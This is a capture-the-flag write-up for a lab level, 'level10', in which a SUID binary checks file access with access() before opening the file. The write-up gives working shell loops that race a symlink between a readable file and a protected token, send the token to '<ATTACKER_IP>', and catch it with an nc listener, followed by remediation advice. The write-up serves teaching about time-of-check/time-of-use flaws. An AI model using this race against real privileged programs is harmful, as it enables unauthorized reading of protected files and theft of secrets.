

# Level10 - Race Condition (TOCTOU) in SUID Binary

## Description

The `level10` binary has the SUID bit set and is owned by `flag10`.  
It reads a file provided as input and sends its content over TCP on port `6969`.

```bash
./level10 file host
	sends file to host if you have access to it
```

Using `ltrace`, the following behavior was observed:
- The program checks file permissions using `access()` with the real UID
- Then opens the file using `open()` with the effective UID
- Finally reads and sends its content

```bash
access("/tmp/test", 4) = -1
```
This reveals a classic **Time-of-Check to Time-of-Use (TOCTOU)** vulnerability.

## Exploitation

To exploit this race condition, I used a symbolic link that rapidly switches between a readable file and the protected `token` file.

First, I created a readable file:

```bash
echo "test" > /tmp/test
```

Then I launched a loop to continuously switch a symlink between the readable file and the protected token:

```bash
while true; do
    ln -sf /tmp/test /tmp/getpasswd
    ln -sf /home/user/level10/token /tmp/getpasswd
done
```

In parallel, I repeatedly executed the binary:

```bash
while true; do
    ./level10 /tmp/getpasswd <ATTACKER_IP>
done
```

On another terminal, I listened on port 6969:

```bash
nc -lk 6969
```
After a few tries, the program reads the protected `token` file and sends its content, revealing the flag.

## Remediation
- Do not rely on `access()` for security checks
- Avoid separating permission checks and file usage
- Do not use user-controlled file paths in privileged programs

## Conclusion

This vulnerability demonstrates that race conditions in privileged programs can allow unauthorized access to sensitive files.


